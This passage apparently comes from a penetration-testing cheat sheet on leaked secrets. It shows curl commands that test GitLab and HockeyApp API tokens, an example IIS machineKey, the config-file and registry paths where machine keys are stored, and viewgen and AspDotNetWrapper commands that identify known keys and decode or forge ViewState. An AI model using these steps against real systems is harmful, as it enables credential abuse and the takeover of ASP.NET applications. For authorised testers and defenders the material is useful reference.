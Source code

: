 ### Gitlab Personal Access Token

```powershell
curl "https://gitlab.example.com/api/v4/projects?private_token=<your_access_token>"
```


### HockeyApp API Token

```powershell
curl -H "X-HockeyAppToken: ad136912c642076b0d1f32ba161f1846b2c" https://rink.hockeyapp.net/api/2/apps/2021bdf2671ab09174c1de5ad147ea2ba4
```


### IIS Machine Keys

> That machine key is used for encryption and decryption of forms authentication cookie data and view-state data, and for verification of out-of-process session state identification.

Requirements
* machineKey **validationKey** and **decryptionKey**
* __VIEWSTATEGENERATOR cookies
* __VIEWSTATE cookies

Example of a machineKey from https://docs.microsoft.com/en-us/iis/troubleshoot/security-issues/troubleshooting-forms-authentication.

```xml
<machineKey validationKey="87AC8F432C8DB844A4EFD024301AC1AB5808BEE9D1870689B63794D33EE3B55CDB315BB480721A107187561F388C6BEF5B623BF31E2E725FC3F3F71A32BA5DFC" decryptionKey="E001A307CCC8B1ADEA2C55B1246CDCFE8579576997FF92E7" validation="SHA1" />
```

Common locations of **web.config** / **machine.config**
* 32-bit
    * C:\Windows\Microsoft.NET\Framework\v2.0.50727\config\machine.config
    * C:\Windows\Microsoft.NET\Framework\v4.0.30319\config\machine.config
* 64-bit
    * C:\Windows\Microsoft.NET\Framework64\v4.0.30319\config\machine.config
    * C:\Windows\Microsoft.NET\Framework64\v2.0.50727\config\machine.config
* in registry when **AutoGenerate** is enabled (extract with https://gist.github.com/irsdl/36e78f62b98f879ba36f72ce4fda73ab)
    * HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\4.0.30319.0\AutoGenKeyV4  
    * HKEY_CURRENT_USER\Software\Microsoft\ASP.NET\2.0.50727.0\AutoGenKey


#### Identify known machine key

* Exploit with [Blacklist3r/AspDotNetWrapper](https://github.com/NotSoSecure/Blacklist3r)
* Exploit with [ViewGen](https://github.com/0xacb/viewgen)

```powershell
# --webconfig WEBCONFIG: automatically load keys and algorithms from a web.config file
# -m MODIFIER, --modifier MODIFIER: VIEWSTATEGENERATOR value
$ viewgen --guess "/wEPDwUKMTYyODkyNTEzMw9kFgICAw8WAh4HZW5jdHlwZQUTbXVsdGlwYXJ0L2Zvcm0tZGF0YWRkuVmqYhhtcnJl6Nfet5ERqNHMADI="
[+] ViewState is not encrypted
[+] Signature algorithm: SHA1

# --encrypteddata : __VIEWSTATE parameter value of the target application
# --modifier : __VIEWSTATEGENERATOR parameter value
$ AspDotNetWrapper.exe --keypath MachineKeys.txt --encrypteddata <real viewstate value> --purpose=viewstate --modifier=<modifier value> –macdecode
```
